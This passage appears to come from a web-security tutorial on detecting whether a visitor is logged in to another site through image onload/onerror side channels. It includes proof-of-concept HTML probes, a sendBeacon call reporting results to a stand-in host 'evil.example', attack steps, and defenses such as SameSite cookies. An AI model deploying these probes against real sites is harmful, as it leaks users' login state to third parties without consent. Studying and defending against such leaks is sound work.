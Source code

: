   * `onload` → likely logged in
  * `onerror` → likely not logged in

```html
<img
  src="https://target.example/account/avatar?size=32"
  onload="report('in');"
  onerror="report('out');"
  style="display:none">
<script>
  function report(state){
    navigator.sendBeacon('https://evil.example/state', 'target='+state);
  }
</script>
```

### PoC: Redirect chain MIME mismatch

If unauth’d response is an **HTML login page**, many browsers fire `onerror` for `<img>`:

```html
<img src="https://bank.example/profile/photo"
     onerror="report('not-logged')"
     onload="report('logged')">
```

### PoC: Pixel endpoints

Some apps expose **1×1 pixel** endpoints only when logged in (`/csrf-pixel`, `/session/ping`). Those are perfect for `onload` checks.

### HACK STEPS

1. **Fingerprint a set of endpoints** that differ logged-in vs not (avatars, notifications feed, export CSV, pixel beacons).
2. Test in a **clean profile**: does `<img>` fire `onload` only when authenticated?
3. Ship the appropriate probes, collect results via `sendBeacon`.

### Modern Limits

* **SameSite** defaults (Lax) often block sending cookies on cross-site *subresource* requests; some targets set `SameSite=None; Secure` (then probes work).
* **CORP/CORB** block script/style leaks but **don’t stop image load success/fail** signaling.

### Defenses

* **SameSite=Strict/Lax** for session cookies when possible.
* Ensure **unauthenticated responses** to sensitive endpoints are **uniform (same status/MIME/size)** and don’t reveal auth state via load/error.
* Consider **token-gated images** and require **CORS with credentials** (and fail “opaque” otherwise).

---
